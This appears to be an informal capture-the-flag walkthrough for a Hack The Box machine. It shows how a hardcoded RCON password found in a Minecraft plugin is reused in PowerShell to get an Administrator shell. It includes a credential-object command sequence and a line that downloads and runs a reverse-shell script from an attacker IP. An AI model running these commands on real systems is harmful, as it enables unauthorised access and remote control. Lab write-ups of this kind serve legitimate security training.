 # powershell
- simple modified powershell can be used to gain access from one user to another using but it needs what is know as password

assume we have managed to get a shell and we have meet something like this maybe 
```
public final class Playercounter extends JavaPlugin {  
  public void onEnable() {  
    Rcon rcon = null;  
    try {  
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());  
    } catch (IOException e) {  
      throw new RuntimeException(e);  
    } catch (AuthenticationException e2) {  
      throw new RuntimeException(e2);


This issue can be referenced from a craft machine from hack the box
```

- If we try to discete the code we can see that is trying to create a playercounter plugin with a onEnable() method being enabled, with the method we can see the the is a Rcon class which tried to establish remote connection with the above port,ip and password as "s67u84zKq8IXw". first it will try to connect and if the authentication fails it throws an exceptions error and it will stop loading the plugin

- now lets see how we can abuse this into getting a shell as an adminstrator, first we will need the following credential object based parameter

# Create string  that will store our password

we need to create an object based paramater that will carry our credentials lets begin with a string to hold the creds

```
PS C:\Users\svc_minecraft\server\plugins> $SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  

we can try to make a secure password conversion 
```

# After we have store our password lets create a new object named creds that will hold this creds with a respective administrator username
```
PS C:\Users\svc_minecraft\server\plugins> $cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  

```

# after that the last part will be using this object to get a shell
```
PS C:\Users\svc_minecraft\server\plugins> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.79:8080/reverse_shell.ps1')" -Credential $cred
```
what we have done so above is that we  have initilize the process that will execute the download a powershell script from our machine and execute it and we get a reverse shell


N/B: This powershell script is from nishang but also you can get it from here - [reverse-shell](https://github.com/alien-keric/powershell/blob/main/reverse_shell.ps1)


